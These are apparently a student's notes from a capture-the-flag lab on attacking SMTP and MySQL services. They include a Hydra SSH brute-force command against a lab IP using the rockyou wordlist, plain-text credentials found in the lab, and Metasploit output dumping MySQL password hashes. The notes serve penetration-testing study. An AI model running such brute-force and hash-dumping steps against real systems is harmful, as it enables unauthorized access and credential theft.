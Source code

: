 # Network Services 2

## SMTP

user: administrator
pw: alejandro

mailserver name: polosmtp.home 

MTA: Postfix

server OS: Ubuntu

target ip: 10.10.206.1

Hydra ssh bruteforce:

	hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt -vV 10.10.206.1 ssh


## MySQL

assume we found 

root:password

carl:doggie

mysql version: 5.7.29-0ubuntu0.18.04.1

[*] 10.10.94.146:3306 - Sending statement: 'show databases'...
[*] 10.10.94.146:3306 -  | information_schema |
[*] 10.10.94.146:3306 -  | mysql |
[*] 10.10.94.146:3306 -  | performance_schema |
[*] 10.10.94.146:3306 -  | sys |
[*] Auxiliary module execution completed

[+] 10.10.94.146:3306     - Saving HashString as Loot: root:
[+] 10.10.94.146:3306     - Saving HashString as Loot: mysql.session:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.94.146:3306     - Saving HashString as Loot: mysql.sys:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.94.146:3306     - Saving HashString as Loot: debian-sys-maint:*D9C95B328FE46FFAE1A55A2DE5719A8681B2F79E
[+] 10.10.94.146:3306     - Saving HashString as Loot: root:*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
[+] 10.10.94.146:3306     - Saving HashString as Loot: carl:*EA031893AA21444B170FC2162A56978B8CEECE18
[*] 10.10.94.146:3306     - Scanned 1 of 1 hosts (100% complete)


